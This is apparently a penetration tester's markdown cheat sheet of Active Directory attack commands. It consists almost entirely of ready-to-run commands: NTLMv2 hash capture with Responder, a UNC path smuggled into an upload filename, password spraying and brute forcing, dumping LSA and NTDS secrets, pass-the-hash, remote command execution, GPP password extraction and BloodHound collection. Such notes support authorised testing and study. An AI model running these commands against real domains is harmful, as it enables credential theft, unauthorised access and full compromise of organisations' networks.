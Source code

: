 # 🔭 AD Enumeration

## Capturing NTLMv2 Hashes

!!! info
    🐈‍⬛ Hashcat mode -> 5600

```shell
# responder
sudo responder -I eth0

# smb server
impacket-smbserver -smb2support <sharename> $(pwd)
```

### UNC Attack

```shell
# from inside the machine (shortcut file, shell or web attack)
dir \\<IP>\test
Content-Disposition: form-data; name="myFile"; filename="\\\\<ip>\\test"
```

## Living off the Land

```shell
# list domain users
net user /domain
net user /domain <username>
# list domain groups
net group /domain
net group /domain <groupname>

# add user to group
net group <groupname> <username> /add /domain

# list a share
ls \\dc1.corp.com\sysvol\corp.com\

# password policies
net accounts /domain

# get current domain name
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

## PowerView

```shell
# if scripts can be imported
powershell -ep bypass
Import-Module .\PowerView.ps1

# domain info
Get-NetDomain
# list users
Get-NetUser
Get-NetUser | select cn
Get-NetUser <usercn>
# list groups
Get-NetGroup
Get-NetGroup | select cn
Get-NetGroup <groupcn> | select member
# list computers
Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname

# find local admin access under current user
Find-LocalAdminAccess
# see who is logged on
Get-NetSession -ComputerName <computer>
# if fails, use psloggedon.exe, needs Remote Registry active on host
PsLoggedon.exe \\<computer>

# list spn
Get-NetUser -SPN | select samaccountname,serviceprincipalname
# or
setspn -L iis_service
# list Access Control Entries (ACE) of user
Get-ObjectAcl -Identity <user>
# convert SID to name
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104

# filter by perm GenericAll for a specific group
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# find AS-REP Roastable accounts
Get-DomainUser -PreauthNotRequired -verbose
# find kerberoastable accounts
Get-NetUser -SPN | select serviceprincipalname

# find shares
Find-DomainShare
```

## Password Spraying

> <https://github.com/ropnop/kerbrute>

```shell
# nxc or cme
nxc smb <ip> -u users.txt -p <password> -d <domain> --continue-on-success

# kerbrute
kerbrute passwordspray -d <domain> users.txt <password> --dc <dc_ip>
```

## User Enumeration

> <https://github.com/lkarlslund/ldapnomnom>

```shell
# enum users via Kerberos
kerbrute enumusers --dc <ip> -d <domain> <userlist>

ldapnomnom -dnsdomain <domain> -server <dc-ip> -input <wordlist>

nxc smb <ip> -u <user> -p <pass> --users

# windows
.\Rubeus.exe brute /users:<userlist> /passwords:<wordlist> /domain:<domain>
```

## Credential Testing

!!! tip
    🍪 NetExec

    - `[+]` is valid credentials
    - `[pwned!]` is valid credential with privileges 

```shell
# nxc
# check valid domain credentials
nxc smb <ip> -u <user> -p <password> -d <domain>
# check valid local credentials
nxc smb <ip> -u <user> -p <password> --local-auth

# check in a range of machines
nxc smb x.x.x.70-76 -u <user> -p <password> -d <domain> --continue-on-success

# with a userlist and wordlist
nxc smb <ip> -u <userlist> -p <wordlist> -d <domain> --continue-on-success

# list shares, users or all
nxc smb <ip> -u <user> -p <pass> -d <domain> --shares
nxc smb <ip> -u <user> -p <pass> -d <domain> --users
nxc smb <ip> -u <user> -p <pass> -d <domain> --all

# dump lsa or ntds
nxc smb <ip> -u <user> -p <pass> --lsa
nxc smb <ip> -u <user> -p <pass> --ntds

# enumerate users by rid
nxc smb <ip> -u 'guest' -p '' --rid-brute

# execute a command
nxc smb <ip> -u <user> -p <pass> -x <command>

# PTH
nxc smb <ip> -u <user> -H <hash> 

# kerbrute
kerbrute brute -d <domain> -u <user> -p <wordlist>
```

## GPP password in SYSVOL policy

```shell
# manual
grep -inr "cpassword" . --include=*.xml

# GPPPassword
# with NULL session
impacket-Get-GPPPassword -no-pass <ip>
# with creds
impacket-Get-GPPPassword <domain>/<user>:<pass>@<ip>
# parse a local file
impacket-Get-GPPPassword -xmlfile <Policy>.xml local

# nxc
nxc smb <ip> -u <user> -p <pass> -d <domain> -M gpp_password
```

Decrypt the password

```shell
gpp-decrypt <pass>
```

## BloodHound

```shell
sudo neo4j start
bloodhound
# upload collected zip 
```

### SharpHound

!!! warning
    For Bloodhound legacy (4.3.1) compatibility, use sharphound [v1.1.1.1](https://github.com/SpecterOps/SharpHound/releases/tag/v1.1.1)

```shell
.\SharpHound.exe -c All

Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory . -OutputPrefix "dom audit"
```

### bloodhound-python

```shell
bloodhound-python -c All -u <user> -p <pass> -d <domain> -dc <dc_hostname> -ns <ns_ip> --zip 
```

## LDAPDomainDump

```shell
ldapdomaindump -u '<domain>\<user>' -p '<pass>' <ip>
```

## Automated Enumeration

### ADpeas

> <https://github.com/61106960/adPEAS>

```shell
Import-Module .\adPEAS.ps1
Invoke-adPEAS
```
